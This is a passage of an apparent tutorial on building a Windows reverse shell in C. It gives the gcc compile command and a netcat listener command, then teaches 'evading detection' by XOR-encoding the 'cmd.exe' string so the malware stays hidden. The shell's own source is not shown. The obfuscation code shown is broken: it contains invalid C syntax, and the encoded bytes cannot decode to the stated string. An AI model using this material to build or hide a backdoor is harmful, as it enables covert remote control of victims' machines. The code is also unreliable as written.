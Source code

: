 **Compiling the code:**

You will need to compile this code on Windows, the command to compile the code is:

```c
gcc -Wall -o revshell rev_shell.c -l ws2_32
```

The `-lws2_32` links the required Winsock library.

**Set up the listener:**

To set up a basic listener all you need is netcat. This is a default installation on most Linux systems. All you need to run is:

```c
nc -lvp 4444
```

Flags:
- `-l`
    - Listen for incoming connections
- `-v`
    - Produce more verbose output
- `-p`
    - Specify the listening port


---

## Evading detection

Malware usually attempts to evade detection so that it remains hidden and continues its process on the compromised system. Evading detection is crucial for most malware to succeed and achieve its objectives. In this section we will take our reverse shell and make it harder to detect by using obfuscation techniques.

**String obfuscation**

A simple technique to make detection harder is to obfuscate the strings you are using. As an example we can xor encrypt the `cmd.exe` string and decrypt it at runtime:

```c
...

void xor_decrypt(*char data, int data_len, char key) {
  for (int i = 0; i < data_len; i++) {
    data[i] ^= key;
  }
}

int main() {
  ...
  // encoded cmd.exe 
  char encoded_cmd[] = { 'i', 'k', 'h', 'k', 'z', 'y', 0 };
  
  // decode the encoded string using key 0xAA
  xor_decrypt(encoded_cmd, sizeof(encoded_cmd) - 1, 0xAA);
  ...
}
```
